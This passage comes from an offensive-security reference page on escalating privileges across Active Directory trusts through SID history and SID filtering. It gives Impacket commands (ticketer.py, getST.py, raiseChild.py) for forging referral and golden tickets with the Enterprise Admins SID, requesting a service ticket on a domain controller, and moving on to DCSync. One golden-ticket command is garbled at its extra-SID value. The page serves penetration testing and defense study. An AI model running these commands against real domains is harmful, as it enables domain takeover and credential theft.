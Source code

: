  > For example the Exchange security groups, which allow for a [privilege escalation to DA](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/) in many setups all have RIDs larger than 1000. Also many organisations will have custom groups for workstation admins or helpdesks that are given local Administrator privileges on workstations or servers.
 >
 > _(by_ [_Dirk-jan Mollema_](https://twitter.com/_dirkjan) _on_ [_dirkjanm.io_](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/)_)_
* If SID filtering is fully enabled, the techniques presented above will not work since all SIDs that differ from the trusted domain will be filtered out. This is usually the case with standard inter-forest trusts. Attackers must then fall back to other methods of [permissions abuse](index#abusing-permissions). Alternatively, there are a few SIDs that won't be filtered out (see [SID filtering](index#sid-filtering) theory and [SID filtering bypass](index#sid-filtering-bypass) practice).

> [!TIP]
> If the attacker chooses to forge an inter-realm ticket forgery (i.e. referral ticket), a service ticket request must be conducted before trying to access the domain controller. In the case of a golden ticket, the target domain controller will do the hard work itself. Once the last ticket is obtained, it can be used with [pass-the-ticket](../kerberos/ptt) for the [DCSync](../credentials/dumping/dcsync) (if enough privileges, or any other operation if not).


::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/fortra/impacket) scripts (Python) can be used for that purpose.

* ticketer.py to forge tickets
* getST.py to request service tickets
* lookupsid.py to retrieve the domains' SIDs

If SID filtering is disabled, set the RID to 519 to act as Enterprise Admin.

If SID filtering is partially enabled, set the RID >=1000.

##### Referral ticket
```bash
# 1. forge the ticket
ticketer.py -nthash "inter-realm key" -domain-sid "compromised_domain_SID" -domain "compromised_domain_FQDN" -extra-sid "<target_domain_SID>-<RID>" -spn "krbtgt/target_domain_fqdn" "someusername"

# 2. use it to request a service ticket
KRB5CCNAME="someusername.ccache" getST.py -k -no-pass -debug -spn "CIFS/domain_controller" "target_domain_fqdn/someusername@target_domain_fqdn"
```


```bash
ticketer.py -nthash "compromised_domain_krbtgt_NT_hash" -domain-sid "compromised_domain_SID" -domain "compromised_domain_FQDN" -extra-sid "-" "someusername"
```


Impacket's [raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py) script can also be used to conduct the golden ticket technique automatically when SID filtering is disabled (retrieving the SIDs, dumping the trusted domain's krbtgt, forging the ticket, dumping the forest root keys, etc.). It will forge a ticket with the Enterprise Admins extra SID.
